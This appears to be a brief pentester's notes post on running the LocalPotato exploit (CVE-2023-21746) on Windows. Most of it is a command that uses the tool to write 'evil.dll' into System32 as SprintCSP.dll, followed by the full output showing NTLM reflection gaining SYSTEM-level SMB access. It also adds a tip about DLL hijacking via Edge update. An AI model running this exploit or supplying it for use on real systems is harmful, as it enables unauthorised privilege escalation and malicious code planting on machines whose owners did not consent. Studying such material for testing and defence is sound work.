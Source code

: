 # LocalPotato

Monday, March 20, 2023 by manesec.

## Note

It may need to enable **share files with the Home Group Sharing feature**.

```cmd
C:\Users\Mane\Downloads\LocalPotato>LocalPotato.exe -i evil.dll -o \Windows\System32\SprintCSP.dll


         LocalPotato (aka CVE-2023-21746)
         by splinter_code & decoder_it

[*] Objref Moniker Display Name = objref:TUVPVwEAAAAAAAAAAAAAAMAAAAAAAABGAQAAAAAAAACMvgT9F4qM/hFmqmVSIbmqArAAAJAfxAU6GAYMt+HvBjgAIgAHAEQARQBTAEsAVABPAFAALQAxAE4AVgBKAEoAQQBNAAAABwAxADkAMgAuADEANgA4AC4AMQA5AC4AMQA2ADAAAAAAAAkA//8AAB4A//8AABAA//8AAAoA//8AABYA//8AAB8A//8AAA4A//8AAAAA:
[*] Calling CoGetInstanceFromIStorage with CLSID:{854A20FB-2D44-457D-992F-EF13785D2B51}
[*] Marshalling the IStorage object... IStorageTrigger written: 100 bytes
[*] Received DCOM NTLM type 1 authentication from the privileged client
[*] Connected to the SMB server with ip 127.0.0.1 and port 445
[+] SMB Client Auth Context swapped with SYSTEM
[+] RPC Server Auth Context swapped with the Current User
[*] Received DCOM NTLM type 3 authentication from the privileged client
[+] SMB reflected DCOM authentication succeeded!
[+] SMB Connect Tree: \\127.0.0.1\c$  success
[+] SMB Create Request File: Windows\System32\SprintCSP.dll success
[+] SMB Write Request file: Windows\System32\SprintCSP.dll success
[+] SMB Close File success
[+] SMB Tree Disconnect success

```

GUI can use edge update hijack dll.

Ref: https://github.com/decoder-it/LocalPotato